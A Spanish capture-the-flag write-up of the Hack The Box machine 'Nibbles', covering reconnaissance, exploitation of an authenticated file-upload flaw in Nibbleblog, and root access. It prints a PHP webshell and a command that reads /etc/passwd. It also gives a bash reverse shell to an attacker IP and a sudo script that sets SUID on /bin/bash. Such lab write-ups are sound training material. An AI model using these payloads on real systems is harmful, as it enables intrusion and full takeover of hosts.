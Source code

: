 ```yaml
---
title: "Nibbles"
layout: "post"
categories: [ "HTB - Retired Machines", "Easy" ]
tags: [ "sudo", "nmap", "ffuf", "curl", "wappalyzer" ]
---
```


## Info

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/01_nibbles.png)
*Nibbles - HTB (Easy)*

En este post, voy a compartir cómo resolví la máquina retirada **Nibbles** de Hack the Box, clasificada como *Easy*.

## Nmap

Comienzo verificando si el host está activo. Para ello, envio un paquete **ICMP** hacia la IP del objetivo.

```shell
ping -c 1 "IP_VICTIM"
```
Como respondió correctamente, realizamos un escaneo completo de puertos usando `nmap`:

```shell
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv "IP_VICTIM" -oG allPorts
```
Explicación de los parámetros.

- `-p-`: Escanea todo el rango de puertos del 1-65535.
- `--open`: Muestra solo los puertos abiertos.
- `-sS`: Realiza un escaneo TCP SYN (Stealth Scan).
- `--min-rate 5000`: Establece una velocidad mínima de 5000 paquetes por segundo.
- `-n`: No realizar resolución DNS.
- `-Pn`: Omite el descubrimiento de hosts.
- `-vvv`: Muestra información detallada durante el escaneo.
- `-oG`: Exporta el output en formato "grepable" en el archivo **allPorts**.

Una vez terminado el escaneo, utilicé la función [extractPorts](https://pastebin.com/xNaZxRGA) para extraer los puertos abiertos y copiarlos al portapapeles.

El escaneo revela dos puertos abiertos: **22 (SSH)** y **80 (HTTP)**. Para obtener más información, hago un escaneo de versiones y servicios de los puertos descubiertos:

```shell
nmap -sCV -p22,80 "IP_VICTIM" -oN version
```

- `-sC`: Realiza un escaneo usando un conjunto de scripts por defecto que incluyen: discovery, intrusive, etc.
- `-sV`: Habilita la detección de versión y servicio para cada uno de estos puertos. 
- `-p`: Escanear solo los puertos específicados.
- `-oN`: Exportar el output en formato normal hacia el archivo **version**

Los resultados muestran que el sistema corre **Apache** y **OpenSSH**. Usando la versión de `OpenSSH`, identifico que el sistema probablemente se basa en **Ubuntu Xenial (16.04)**.

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/02_nibbles.png)
*Launchpad*

## Enumeración Web

Accedo desde el navegador al puerto 80 del objetivo, donde me encuentro con una simple página de bienvenida. En seguida, revisó el código fuente, y se revela una ruta interesante:

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/04_nibbles.png)
*Source Code*

### Fingerprinting

Al visitar ese endpoint, soy redirigido a un CMS llamado **Nibbleblog**. Uso herramientas como `WhatWeb` y `Wappalyzer` para identificar las tecnologías del sitio.

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/05_nibbles.png)
*Wappalyzer*

Ambas confirman el uso de:

- `PHP`
- `Apache`
- `jQuery`
- `CMS`: [Nibbleblog](https://code.google.com/archive/p/nibbleblog/)

Dado que el lenguaje de programación del backend es `PHP`, empiezo a pensar en posibles vectores de **RCE** a través de la carga de archivos.

### ffuf 

A continuación, realizo fuzzing con `ffuf` (puedes usar `dirsearch`, `gobuster` , `wfuzz`, etc) utilizando un diccionario de [SecLists](https://github.com/danielmiessler/SecLists).

```shell
ffuf -c -ic -w /usr/share/wordlists/SecLists-2025.2/Discovery/Web-Content/common.txt -u http://10.129.74.73/nibbleblog/FUZZ -mc all -fc 404
```
![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/06_nibbles.png)
*Output ffuf*

Encuentro algunos recursos interesantes:

- `/README`: Muestra la versión del CMS. 
- `/admin.php`: Panel de login.
- `/plugins`: Capacidad de directory listing habilitado.
- `/content/users.xml`: Encuentro un nombre de usuario válido. 

Intento ingresar al panel de login (`/admin.php`) usando el usuario encontrado y algunas [contraseñas comunes](https://venturebeat.com/security/the-top-20-admin-passwords-will-have-you-facepalming-hard). Sin embargo, tras varios intentos, desencadena un bloqueo temporal de mis solicitudes y el servidor devuelve un mensaje de protección:

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/07_nibbles.png)

Esto indica que **no vale la pena insistir la fuerza bruta**. Entonces, deduzco que podría ser una contraseña simple basada en el nombre del sitio, pruebo con posibles variantes como: `Nibbles`, `nibbles`, `NIBBLES`, y... ¡logro acceder como el usuario **admin**!

## Explotación 

Una vez dentro, verifico la versión exacta del CMS e investigo posibles vulnerabilidades conocidas usando estas palabras clave: `Nibbleblog 4.0.3 exploit`. Encuentro una que destaca: `CVE-2015-6967`, que permite la carga arbitraria de archivos si se tiene acceso autenticado.

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/03_nibbles.png)
*README*

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/08_nibbles.png)

Este [artículo](https://systemweakness.com/a-look-at-cve-2015-6967-fe9a990d57a1) explica bien cómo funciona la vulnerabilidad. En resumen, el ataque se acontece utilizando el plugin `My Image`, que permite subir **cualquier archivo independientemente de su extensión** dándome total libertad a cargar archivos PHP.

Creo una webshell simple en mi máquina y la almaceno como `shell.php`:

```php
<?php
    system($_GET['cmd']);
?>
```

Subo el archivo a través del plugin. Aunque se muestran varios errores, el mensaje indica que el archivo ha sido subido exitosamente.

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/09_nibbles.png)
*Plugin My Image - Upload shell.php*

Según el artículo, los archivos se almacenan en: `/content/private/plugins/my_image`. Accedo a esta ruta, y ejecuto comandos a través del parámetro `cmd` del archivo `image.php`:

```shell
http://IP_VICTIM/nibbleblog/content/private/plugins/my_image/image.php?cmd=cat /etc/passwd
```

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/10_nibbles.png)
*Reading /etc/passwd*

¡Confirmado! Tengo **RCE**. Para obtener una **reverse shell**, usaré el primer payload de [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```shell
http://10.129.74.73/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.60/443 0>%261'
```
> Nota: Reemplazo `&` por `%26` usando URL encoding. 

Por otro lado en mi host, me pongo a la escucha con `nc`:

```shell
nc -lnvp 443
```

- `-l`: Escucha conexiones entrantes.
- `-n`: Omitir la resolución DNS.
- `-v`: Muestra información detallada.
- `-p`: Especifica el puerto en el que debe escuchar (443 en este caso).

Una vez que ejecuto el payload se ejecuta, tengo una shell.

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/11_nibbles.png)

## User shell

Antes de continuar, realizaré el tratamiento de la TTY para obtener una full TTY funcional.

```shell
script /dev/null -c bash
# [ Ctrl + Z ]

stty raw -echo; fg
reset xterm
export TERM=xterm
```

Y también ajusto la proporción de las filas y columnas:

```shell
# En mi máquina 
stty size

# En Nibbles
stty rows 45 columns 184
```

Encuentro la **user flag** en el directorio personal del usuario:

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/12_nibbles.png)

## Privilege Escalation

Verifico permisos `sudo`:

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/13_nibbles.png)

El resultado muestra que puedo ejecutar un script como `root`, sin proporcionar contraseña. Aunque el script aún no existe, tengo permisos de escritura, por lo que puedo crearlo.

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/14_nibbles.png)

El script contiene estas instrucciones:

```shell
#!/bin/bash

chmod 4755 /bin/bash
```

Ejecuto este script con `sudo`:

```shell
sudo -u root /home/nibbler/personal/stuff/monitor.sh
```

Esto le asigna el **bit SUID** a `/bin/bash`. Verifico los permisos, y abro una shell con privilegios elevados:

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/15_nibbles.png)

Finalmente, tengo acceso como root:

![Nibbles](/assets/posts/2025-09-06-nibbles-machines-htb/16_nibbles.png)
